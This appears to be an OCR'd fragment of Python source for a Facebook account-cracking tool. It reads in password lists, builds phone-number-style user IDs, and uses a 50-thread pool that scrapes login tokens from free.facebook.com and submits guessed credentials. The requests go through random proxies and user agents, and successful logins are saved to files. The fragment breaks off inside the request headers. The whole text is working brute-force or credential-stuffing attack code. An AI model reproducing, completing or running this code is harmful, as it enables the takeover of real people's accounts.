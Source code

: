     os.system("clear")
    print(logo)
    print('[+] Example :  1,2,3,4,5,6,7,8,9**,Etc')
    linex()
    passx = int(input("[*] Enter Password Limit : "))
    HamiiID = []
    os.system('clear')
    print(logo)
    print('[+] Example : khan12345,bangladish,baloch,***Etc')
    linex()
    for bilal in range(passx):
        pww = input(f"[*] Enter Password {bilal+1} : ")
        HamiiID.append(pww)
    with ThreadPool(max_workers=50) as manshera:
        os.system('clear')
        print(logo)
        tl = str(len(user))
        print(' Total Acounts : '+tl)
        print(' Selected Code :\x1b[1;92m '+code)
        print('\x1b[1;91m If you no result use flight mode')
        linex()
        for love in user:
            pwx = [love[1:]]
            uid = code+love
            for Eman in HamiiID:
                pwx.append(Eman)
                pwx.append(love)
            manshera.submit(fcrack,uid,pwx,tl)
    linex()
    print('Crack process has been completed')
    print('Ids saved in ok.txt,cp.txt')
    linex()

#_

def fcrack(uid,pwx,tl):
	#print(user)
	global loop
	global cps
	global oks
	global ugen
	try:
		for ps in pwx:
			session = requests.Session()
			sys.stdout.write(f'\r\x1b[1;97m[\033[1;97mRuman king-ðŸ‘‘-\033[1;97m] %s|\x1b[1;92mOK:-%s \x1b[1;97m\r'%(loop,len(oks))),
			sys.stdout.flush()
			ua = random.choice(ugen)
			nip=random.choice(prox)
			proxs= {'http': 'socks4://'+nip}
			free_fb = session.get('https://free.facebook.com').text
			log_data = {
				"lsd":re.search('name="lsd" value="(.*?)"', str(free_fb)).group(1),
			"jazoest":re.search('name="jazoest" value="(.*?)"', str(free_fb)).group(1),
			"m_ts":re.search('name="m_ts" value="(.*?)"', str(free_fb)).group(1),
			"li":re.search('name="li" value="(.*?)"', str(free_fb)).group(1),
			"try_number":"0",
			"unrecognized_tries":"0",
			"email":uid,
			"pass":ps,
			"login":"Log In"}
			header_freefb = {'authority':'p.facebook.com',
			'upgrade-insecure-requests': '1',
			'viewport-width': '980',